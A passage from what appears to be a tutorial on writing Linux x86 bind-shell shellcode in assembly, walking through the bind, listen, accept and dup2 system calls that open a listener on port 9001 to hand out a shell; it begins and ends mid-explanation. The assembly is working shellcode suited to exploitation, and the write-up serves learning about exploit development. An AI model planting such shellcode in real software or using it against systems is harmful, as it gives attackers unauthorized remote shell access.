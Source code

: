 ; create our sockaddr struct in memory, used with bind() call, 2nd param
xor ecx, ecx
push ecx              ;  0
push ecx              ;  Local Address (0.0.0.0)
push word 0x2923      ;  port number (9001)
push word 0x2         ;  AF_INET

mov ecx, esp          ; pointer to struct
mov edx, 16           ; size of struct
int 0x80
```

Now we are ready to implement our call to listen(). Looking at the C implementation above, listen(listen_sock, 0); we can see that we require our EBX register (1st parameter) to equal the value of our file descriptor returned from socket() and our ECX register (2nd parameter) should be equal to 0 before making our call to listen(). In addition to the parameter values, we want to make sure EAX holds the value to the correct system call (363) before calling ‘int 0x80’. This should all look like the following:

```
; LISTEN SYSCALL
xor eax, eax
mov eax, 0x16b
mov ebx, edi
xor ecx, ecx
int 0x80
```

Next we want to implement our call to accept() which will appear very similar to the listen() call above. Looking at the C implementation, we see it’s usage as int conn_sock = accept(listen_sock, NULL, NULL);. Once again, we require EAX to equal our syscall value (364), we need our first parameter (EBX) to equal our file descriptor from our socket() call, we then need our 2nd (ECX) and 3rd (EDX) parameters to both equal 0. Finally, we execute our system call with ‘int 0x80’.

```
; ACCEPT SYSCALL
xor eax, eax
mov eax, 0x16c
mov ebx, edi
xor ecx, ecx
xor edx, edx
xor esi, esi
int 0x80
```

Similar to socket(), the accept() call returns a file descriptor value to use within our final syscall, dup2(). We want to make sure we keep track of this value so we overwrite our previous file descriptor value stored in the EDI register.

```
xor edi, edi
mov edi, eax
```

The next system call we need is dup2(). The following implementation was written to replicate the C code above, so there are 3 chunks of assembly that are pretty much the same except for one value. This could be cleaned up using a loop, but at this time, I just wanted the code to work. Looking at the C implementation, we see the following:

```
dup2(conn_sock, 0);
dup2(conn_sock, 1);
dup2(conn_sock, 2);
```

```